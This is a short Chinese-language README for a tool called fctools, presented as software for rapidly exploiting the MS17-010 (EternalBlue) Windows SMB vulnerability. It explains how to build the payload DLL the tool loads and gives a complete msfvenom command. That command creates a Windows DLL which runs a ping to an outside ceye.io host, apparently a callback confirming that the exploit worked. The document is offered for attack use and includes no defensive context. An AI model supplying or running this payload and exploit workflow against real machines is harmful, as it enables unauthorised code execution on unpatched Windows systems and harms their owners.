 ## fctools
一款MS17-010漏洞快速利用软件
## 使用说明
使用msf生成dll，修改名称为x64.dll或者x86.dll
## 生成方法
···
msfvenom -p windows/x64/exec CMD="ping vxqxor.ceye.io" EXITFUNC=process -f dll > /Users/Nibeshe/Desktop/x64.dll
···
